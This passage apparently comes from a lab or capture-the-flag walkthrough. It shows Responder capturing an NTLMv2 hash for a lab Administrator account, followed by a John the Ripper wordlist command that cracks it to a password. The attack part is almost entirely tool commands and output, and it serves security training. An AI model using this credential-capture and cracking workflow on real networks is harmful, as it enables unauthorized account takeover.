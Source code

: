 ```console
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.15]
    Responder IPv6             [dead:beef:2::100d]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[+] Current Session Variables:
    Responder Machine Name     [WIN-26LJT5D4U71]
    Responder Domain Name      [YIU4.LOCAL]
    Responder DCE-RPC Port     [46865]

[+] Listening for events...                                                                                              

[SMB] NTLMv2-SSP Client   : ::ffff:10.129.13.133
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:0be9c5c6cf0e9a1f:315A0FA65B9B10A52D30154FF9
B30B03:010100000000000080AF8BA6064FD80155B6827C008240070000000002000800590049005500340001001E005
70049004E002D00320036004C004A00540035004400340055003700310004003400570049004E002D00320036004C004
A0054003500440034005500370031002E0059004900550034002E004C004F00430041004C00030014005900490055003
4002E004C004F00430041004C000500140059004900550034002E004C004F00430041004C000700080080AF8BA6064FD
8010600040002000000080030003000000000000000010000000020000082174BADF21708E22DEA49E1A9D4B9082DB16
9627E622A1FBE7ADAC17D264F0A0A001000000000000000000000000000000000000900200063006900660073002F003
10030002E00310030002E00310034002E00310035000000000000000000
```

Now that we have the hash, we can use 'John the Ripper' to brute force the password using a [wordlist](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials).

```console
┌──(kali㉿kali)-[~/Downloads/Responder]
└─$ sudo john --format=netntlmv2 -w=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
badminton        (Administrator)     
1g 0:00:00:00 DONE (2022-04-13 09:10) 16.66g/s 546133p/s 546133c/s 546133C/s bulova..160582
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
